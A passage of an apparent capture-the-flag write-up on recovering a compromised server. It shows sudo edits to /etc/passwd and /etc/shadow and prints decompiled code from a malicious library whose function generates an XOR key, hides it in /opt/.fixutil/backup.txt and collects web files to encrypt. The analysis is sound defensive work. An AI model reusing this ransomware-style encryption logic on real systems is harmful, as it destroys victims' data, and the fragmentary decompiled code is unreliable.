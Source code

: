 remove this user from the following files, so I get the new flag
<pre><code>alex@recoveryserver:/etc$ sudo nano passwd
alex@recoveryserver:/etc$ sudo nano shadow</code></pre>
<br><br><br>

# Sixth flag (flag 5)

Reading the libloggin.so code, I found this function called “XOREncryptWebFiles”, This code implements a function to encrypt web files using an XOR cipher, generating a random 16-character key and storing it in the hidden file /opt/.fixutil/backup.txt. First, it creates the key with rand_string(), checks if the key directory exists and, if not, creates it with restrictive permissions. Then, it records the key in backup.txt for possible retrieval and collects the web files using GetWebFiles(). suggests that the web files will be encrypted using the generated key. If backup.txt is accessible, it allows retrieving the key and decrypting the files, which may be useful for recovery.
![2025-02-11_20-46](https://github.com/user-attachments/assets/420160b3-979a-47ce-82c5-6adec0f43982)
<br><br><br>

<pre><code>
/* WARNING: Unknown calling convention */

void XOREncryptWebFiles(void)

{
  int iVar1;
  char *str;
  FILE *__stream;
  char **webfiles;
  long lVar2;
  stat *psVar3;
  long in_FS_OFFSET;
  byte bVar4;
  int i;
  int amnt_webfiles;
  char *encryption_key;
  FILE *encryption_file;
  char **webfile_names;
  stat stat_res;
  long local_10;
  
  bVar4 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  str = (char *)malloc(0x11);
  if (str == (char *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  rand_string(str,0x10);
  psVar3 = 
  for (lVar2 = 0x12; lVar2 != 0; lVar2 = lVar2 + -1) {
    psVar3->st_dev = 0;
    psVar3 = (stat *)((long)psVar3 + (ulong)bVar4 * -0x10 + 8);
  }
  iVar1 = stat(encryption_key_dir,(stat *)
  if (iVar1 == -1) {
    mkdir(encryption_key_dir,0x1c0);
  }
  __stream = fopen("/opt/.fixutil/backup.txt","a");
  fprintf(__stream,"%s\n",str);
  fclose(__stream);
  webfiles = (char **)malloc(8);
  if (webfiles == (char **)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }